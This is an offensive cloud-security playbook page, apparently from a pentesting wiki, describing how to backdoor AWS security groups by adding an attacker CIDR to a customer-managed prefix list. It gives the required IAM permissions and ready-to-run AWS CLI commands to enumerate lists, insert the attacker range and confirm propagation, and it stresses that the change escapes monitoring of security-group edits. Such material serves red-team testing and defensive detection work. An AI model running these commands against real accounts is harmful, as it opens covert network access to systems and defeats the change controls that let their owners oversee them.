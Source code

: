 # AWS - Security Group Backdoor via Managed Prefix Lists

## Summary
Abuse customer-managed Prefix Lists to create a stealthy access path. If a security group (SG) rule references a managed Prefix List, anyone with the ability to modify that list can silently add attacker-controlled CIDRs. Every SG (and potentially Network ACL or VPC endpoint) that references the list immediately allows the new ranges without any visible SG change.

## Impact
- Instant expansion of allowed IP ranges for all SGs referencing the prefix list, bypassing change controls that only monitor SG edits.
- Enables persistent ingress/egress backdoors: keep the malicious CIDR hidden in the prefix list while the SG rule appears unchanged.

## Requirements
- IAM permissions:
  - `ec2:DescribeManagedPrefixLists`
  - `ec2:GetManagedPrefixListEntries`
  - `ec2:ModifyManagedPrefixList`
  - `ec2:DescribeSecurityGroups` / `ec2:DescribeSecurityGroupRules` (to identify attached SGs)
- Optional: `ec2:CreateManagedPrefixList` if creating a new one for testing.
- Environment: At least one SG rule referencing the target customer-managed Prefix List.

## Variables

```bash
REGION=us-east-1
PREFIX_LIST_ID=<pl-xxxxxxxx>
ENTRY_CIDR=<attacker-cidr/32>
DESCRIPTION="Backdoor – allow attacker"
```

## Attack Steps

1) **Enumerate candidate prefix lists and consumers**

```bash
aws ec2 describe-managed-prefix-lists \
  --region "$REGION" \
  --query 'PrefixLists[?OwnerId==`<victim-account-id>`].[PrefixListId,PrefixListName,State,MaxEntries]' \
  --output table

aws ec2 get-managed-prefix-list-entries \
  --prefix-list-id "$PREFIX_LIST_ID" \
  --region "$REGION" \
  --query 'Entries[*].[Cidr,Description]'
```

Use `aws ec2 describe-security-group-rules --filters Name=referenced-prefix-list-id,Values=$PREFIX_LIST_ID` to confirm which SG rules rely on the list.

2) **Add attacker CIDR to the prefix list**

```bash
aws ec2 modify-managed-prefix-list \
  --prefix-list-id "$PREFIX_LIST_ID" \
  --add-entries Cidr="$ENTRY_CIDR",Description="$DESCRIPTION" \
  --region "$REGION"
```

3) **Validate propagation to security groups**

```bash
aws ec2 describe-security-group-rules \
  --region "$REGION" \
  --filters Name=referenced-prefix-list-id,Values="$PREFIX_LIST_ID" \
  --query 'SecurityGroupRules[*].{SG:GroupId,Description:Description}' \
  --output table
```

Traffic from `$ENTRY_CIDR` is now allowed wherever the prefix list is referenced (commonly outbound rules on egress proxies or inbound rules on shared services).

## Evidence
- `get-managed-prefix-list-entries` reflects the attacker CIDR and description.
- `describe-security-group-rules` still shows the original SG rule referencing the prefix list (no SG modification recorded), yet traffic from the new CIDR succeeds.

## Cleanup

```bash
aws ec2 modify-managed-prefix-list \
  --prefix-list-id "$PREFIX_LIST_ID" \
  --remove-entries Cidr="$ENTRY_CIDR" \
  --region "$REGION"
```

